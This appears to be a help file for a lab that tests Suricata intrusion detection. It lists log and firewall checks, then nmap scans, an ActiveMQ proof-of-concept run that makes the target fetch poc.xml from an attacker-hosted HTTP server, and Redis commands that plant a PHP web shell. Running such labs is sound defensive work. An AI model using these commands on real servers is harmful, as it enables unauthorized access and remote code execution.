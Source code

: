 # Help

### Проверить iptables:
```bash
sudo iptables -L DOCKER-USER -nv --line-numbers
```

### Проверить Логи Suricata:
```bash
journalctl -u suricata.service -b
sudo tail -n 200 /var/log/suricata/suricata.log
sudo tail -n 0 -f /var/log/suricata/fast.log
sudo tail -n 0 -f /var/log/suricata/eve.json | jq .
```

### Запустить Suricata вручную:
```bash
sudo suricata -c /etc/suricata/suricata.yaml -q 0
```

### NMAP scans:
```bash
nmap -sS victim     # SYN scan
nmap -sX victim     # Xmas scan
nmap -sU victim     # UDP scan
nmap -O victim      # OS detection
```

### ActiveMQ
```bash
cd /opt
python3 -m http.server 8888
python3 poc.py -i 172.20.0.101 -p 61616 -u http://172.20.0.10:8888/poc.xml
```

### Redis Unauthorized Access + Command Execution
```bash
nmap -sV -p 6379 172.20.0.102
redis-cli -h 172.20.0.102 ping
redis-cli -h 172.20.0.102
>>> info server
>>> config get "*"
>>> keys *
>>> dbsize
>>> config set dir /tmp
>>> config set dbfilename webshell.php
>>> set test "<?php system($_GET['cmd']); ?>"
>>> save
```